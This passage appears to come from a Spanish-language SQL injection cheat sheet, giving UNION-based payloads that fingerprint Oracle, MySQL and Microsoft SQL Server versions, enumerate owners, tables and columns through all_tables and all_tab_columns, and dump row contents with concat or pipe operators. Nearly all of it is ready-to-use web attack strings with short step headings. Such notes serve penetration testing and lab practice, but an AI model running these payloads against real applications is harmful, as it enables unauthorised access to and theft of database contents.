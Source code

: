 Hay otra forma de hacerlo por sí la primera no funciona:
````sql
$WORD' union select null,version from v$instance-- -
````

## Comprobación de usuario/Ver tablas existentes Oracle
Ver tablas existentes del usuario (que es una base de datos)
````sql
$WORD' union select null,table_name from user_tables-- -
````

o

ver todos los usuarios/propietarios  de todas las  tablas:

````sql
$WORD' union select null,owner from all_tables-- -
````

Ver todos las tablas incluso las creadas por defecto(esto **no nos suele interesar**)
````sql
$WORD' union select null,table_name from all_tables-- -
````


## Ver el contenido de la tabla la tabla Oracle

Una vez tengamos el usuario que es propietario de la tabla a la que queremos acceder, podemos preguntarle las filas
````sql
$WORD' union select null,table_name from all_tables where owner='NOMBREUSUARIO'-- -
````

## Ver filas/columnas Oracle

````sql
$WORD' union select null,column_name from all_tab_columns where table_name='NOMBRETABLA'-- -
````

## Ver datos y información Oracle

#### Con concat
````sql
$WORD' union select null,concat(FILA,concat(':',OTRAFILA)) from TABLA-- -
````

#### Con tuberías

````sql
$WORD' union select null,FILA || ':' || OTRAFILA from TABLA-- -
````

### Mostrar versión y tipo en MySQL y Microsoft

Lo mismo que en oracle, pero se utiliza otro comando
````sql
$WORD' union select null,@@version-- -
````
